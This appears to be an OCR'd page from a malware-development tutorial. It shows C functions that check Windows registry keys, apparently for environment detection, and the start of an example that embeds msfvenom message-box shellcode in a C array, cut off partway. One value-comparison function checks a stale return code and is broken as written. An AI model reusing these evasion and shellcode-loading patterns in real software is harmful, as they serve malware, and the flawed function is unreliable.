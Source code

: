 ```c 
int registryKeyExist(HKEY rootKey, char* subKeyName) {
  HKEY registryKey = nullptr;
  LONG result = RegOpenKeyExA(rootKey, subKeyName, 0, KEY_READ,
&registryKey);
  if (result == ERROR_SUCCESS) {
RegCloseKey(registryKey);
return TRUE;
  }
  return FALSE;
}
```

Here we simply verify existence of registry key path returning TRUE if value exists and FALSE otherwise 

### second trick is to verify wheter particular registry key contains value i.e : 

```c 
int compareRegistryKeyValue(HKEY rootKey, char* subKeyName, char*
registryValue, char* comparisonValue) {
  HKEY registryKey = nullptr;
  LONG result;
  char retrievedValue[1024];
  DWORD size = sizeof(retrievedValue);
  result = RegOpenKeyExA(rootKey, subKeyName, 0, KEY_READ,
&registryKey);
  if (result == ERROR_SUCCESS) {
RegQueryValueExA(registryKey, registryValue, NULL, NULL, (LPBYTE)
retrievedValue, &size);
if (result == ERROR_SUCCESS) {
    if (strcmp(retrievedValue, comparisonValue) == 0) {
      return TRUE;
    }
}
  }
  return FALSE;
}
```

Here we verify value of registry key with **RegQueryValueExA** and **RegOpenKeyExA** .

### Example 

!! key names are always case-insensitive !!

```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// msfvenom -p windows/x64/messagebox TEXT="Hello, Packt!" TITLE="=^..^=" -f c
unsigned char myPayload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
```